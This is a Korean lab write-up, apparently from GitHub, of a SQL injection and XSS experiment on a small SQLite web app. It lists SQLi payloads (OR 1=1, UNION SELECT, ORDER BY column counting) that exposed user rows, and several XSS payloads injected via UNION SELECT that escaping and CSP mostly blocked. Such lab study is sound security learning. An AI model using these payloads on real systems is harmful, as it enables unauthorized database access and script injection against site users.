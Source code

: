 # SQL Injection & XSS 결합 공격 실험 Write-up

## 1. 실험 개요
- 본 실험은 간단한 SQLite 기반 웹 환경에서 SQL Injection(이하 SQLi) 및 XSS(크로스사이트 스크립팅) 결합 공격의 가능성과 한계를 검증하기 위해 진행되었습니다.
- 주요 목표는 SQLi를 통해 DB 쿼리를 우회하거나, XSS 페이로드를 삽입하여 클라이언트 측 코드 실행을 유도하는 것입니다.
<img width="396" height="88" alt="image" src="https://github.com/user-attachments/assets/f437b391-9f5d-43d3-947f-ecdc5abeaf6b" />

---

## 2. SQL Injection 기본 공격

### 2-1. 단순 SQLi 시도
- **입력값:**
  ```sql
  ' OR 1=1 --
  ```
- **결과:**
  - 아래와 같이 2개의 사용자 정보가 노출됨
    - ID: 1, Username: soap, Password: soap, Role: guest
    - ID: 2, Username: aa, Password: aa, Role: guest
      
      <img width="442" height="104" alt="image" src="https://github.com/user-attachments/assets/ff0d2001-a9d9-4373-b8f4-75db582d2b6e" />


### 2-2. 에러 기반 SQLi 시도
- **입력값:**
  ```sql
  ' UNION SELECT null, version() --
  ```
- **결과:**
  - 에러 발생: `sqlite3.OperationalError: no such function: version`
  - Error: (sqlite3.OperationalError) no such function: version [SQL: SELECT * FROM user WHERE username = '' UNION SELECT null, version() --' AND username != 'admin'] (Background on this error at: https://sqlalche.me/e/20/e3q8)
- **분석:**
  - SQLite에는 `version()` 함수가 없어 에러 발생
  - 원래 SQL 문은 SELECT * FROM user WHERE username = '' AND username != 'admin

### 2-3. 컬럼 수 파악
- **입력값:**
  ```sql
  ' ORDER BY 1 --
  ' ORDER BY 2 --
  ' ORDER BY 3 --
  ' ORDER BY 4 --
  ' ORDER BY 5 --
  ```
- **결과:**
  - 5에서 에러 발생 → 4개 컬럼 존재 확인
- **분석:**
  - username을 받아와서 검색하며, username이 'admin'이 아닌 경우만 조회

---

## 3. SQLi + XSS 결합 공격 시도

### 3-1. 직접 `<script>` 삽입
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<script>alert(1)</script>', 'x', 'x' --
  ```
- **결과:**
  - HTML에는 보이나, 스크립트 실행되지 않음
- **원인:**
  - 브라우저 보안 정책(escape 렌더링, innerHTML 미사용 등)

### 3-2. ASCII 인코딩(char()) 기반 XSS
- **페이로드:**
  ```sql
  ' UNION SELECT 1, char(60,115,99,...), 'x', 'x' --
  ```
- **결과:**
  - 디코딩 결과 `<script>alert(1)</script>`가 HTML에 노출되나, 실행되지 않음
- **원인:**
  - 템플릿 자동 escape 또는 text 렌더링

### 3-3. 이벤트 기반 XSS (`<img src=x onerror=alert(1)>`)
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<img src=x onerror=alert(1)>', 'x', 'x' --
  ```
- **결과:**
  - 그대로 출력, 실행 안 됨
- **원인:**
  - escape된 HTML이 텍스트로 처리됨

### 3-4. Script-less XSS (`<svg onload=alert(1)>`)
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<svg onload=alert(1)>', 'x', 'x' --
  ```
- **결과:**
  - HTML 노출, 실행 안 됨
- **원인:**
  - escape 처리됨

### 3-5. 구조 깨기 시도 (`</li><script>alert(1)</script><li>`)
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '</li><script>alert(1)</script><li>', 'x', 'x' --
  ```
- **결과:**
  - 페이지 렌더링 중 서버 다운/멈춤
- **원인:**
  - 서버측 필터 또는 파서 오류로 인한 crash

### 3-6. data: URI 기반 iframe 삽입
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '<iframe src="data:text/html;base64,PHNj...">', 'x', 'x' --
  ```
- **결과:**
  - iframe 삽입되나, 실행 안 됨
- **원인:**
  - 렌더러 또는 CSP에 의해 차단

### 3-7. HTML Entity 우회
- **페이로드:**
  ```sql
  ' UNION SELECT 1, '&lt;img src=x onerror=alert(1)&gt;', 'x', 'x' --
  ```
- **결과:**
  - 이중 디코딩 안 됨, 공격 실패
- **원인:**
  - 단일 디코딩만 수행됨

---

## 4. 결론 및 시사점
- SQLi 자체는 비교적 쉽게 성공하였으나, XSS 결합 공격은 서버/클라이언트의 escape 처리, 브라우저 보안 정책 등으로 인해 대부분 실패함.
- 서버 렌더링 방식, 템플릿 엔진의 escape 정책, CSP 등 다양한 보안 요소가 결합되어 있어, 단순 페이로드 삽입만으로는 XSS가 쉽지 않음을 확인함.
